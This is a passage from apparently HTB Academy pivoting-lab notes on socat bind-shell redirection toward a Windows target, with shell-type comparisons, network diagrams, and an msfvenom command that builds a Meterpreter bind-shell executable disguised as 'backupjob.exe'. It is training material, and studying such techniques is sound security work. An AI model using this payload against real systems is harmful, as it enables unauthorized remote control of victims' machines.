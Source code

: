 ### **With Meterpreter**
```bash
# Use Socat for initial access, then establish Meterpreter
# 1. Socat forwards initial payload
# 2. Meterpreter session provides advanced capabilities
# 3. Combine both for comprehensive access
```

---

## **14. Socat Bind Shell Redirection (HTB Academy Page 7)**

### **Bind Shell vs Reverse Shell Comparison**

| **Aspect** | **Reverse Shell** | **Bind Shell** |
|------------|-------------------|----------------|
| **Direction** | Target connects to attacker | Attacker connects to target |
| **Listener Location** | Attack host | Target host |
| **Firewall Bypass** | Better (outbound) | Limited (inbound) |
| **Detection Risk** | Lower | Higher |
| **Use Case** | Standard pivoting | Specific scenarios |

### **Bind Shell Network Topology**
```
[Attack Host] → [Ubuntu Pivot] → [Windows Target]
10.10.14.18     10.129.202.64     172.16.5.19
Metasploit      Socat Listener    Bind Shell
Handler         :8080 → :8443     :8443
```

### **Traffic Flow Analysis**
```
[Metasploit Handler] → [Pivot:8080] → [Socat Forward] → [Windows:8443]
Connection initiated    Receives from    Forwards to      Bind shell waits
by attacker            attack host      target           for connection
```

---

## **15. Implementing Socat Bind Shell Redirection**

### **Step 1: Create Windows Bind Shell Payload**

```bash
# Generate bind TCP Meterpreter payload
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443

# Expected Output:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```
